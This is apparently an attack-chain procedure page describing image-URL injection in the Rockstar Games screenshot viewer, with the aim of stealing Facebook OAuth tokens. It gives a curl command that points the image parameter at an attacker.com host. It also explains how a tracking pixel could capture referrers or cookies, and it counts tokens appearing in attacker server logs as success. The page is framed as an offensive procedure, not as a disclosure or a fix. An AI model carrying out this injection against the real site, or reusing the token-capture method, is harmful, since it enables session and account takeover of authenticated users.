

# Image Injection via Screenshot Viewer for OAuth Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting an unfiltered input parameter in the screenshot viewer utility.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for testing

### Target Environment

- Web platform
- Access to www.rockstargames.com screenshot viewer
- Authenticated session with Facebook OAuth if targeting token theft

### Initial Access Requirements

- Public access to the website
- No special credentials needed for injection testing
- Network access to external image hosts

## Detailed Attack Procedures

### Step 1: Exploit Image Injection
procedure: [[procedures/Exploit-Image-Injection-in-Screenshot-Viewer]]

**Objective**: Inject an external URL into the image parameter to load off-site content, potentially disclosing sensitive data like Facebook OAuth tokens from authenticated users.

**Instructions**: Identify the vulnerable endpoint at www.rockstargames.com/screenshot-viewer/responsive/image. Use a tool like curl to test injection by appending an external image URL to the parameter. For example, craft a request that references a malicious image hosted externally:

```bash
curl "https://www.rockstargames.com/screenshot-viewer/responsive/image?url=http://attacker.com/malicious-image.png"
```

Monitor the response or browser behavior to confirm the external image loads. To simulate token theft, the malicious image could be a tracking pixel that captures referrer headers or cookies containing the OAuth token when loaded in an authenticated session.

**Expected Output**: The page loads the external image instead of a local one, with network requests visible in dev tools showing the off-site fetch.

**Success Indicators**:
- External image URL is accepted and loaded without filtering
- Potential data exfiltration observed in attacker-controlled server logs (e.g., referrer with token)

## Attack Chain Summary

### Key Achievements

1. Successful injection of arbitrary external image sources
2. Bypass of input filtering in the screenshot viewer utility
3. Potential theft of Facebook OAuth tokens via information disclosure from malicious image loads

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
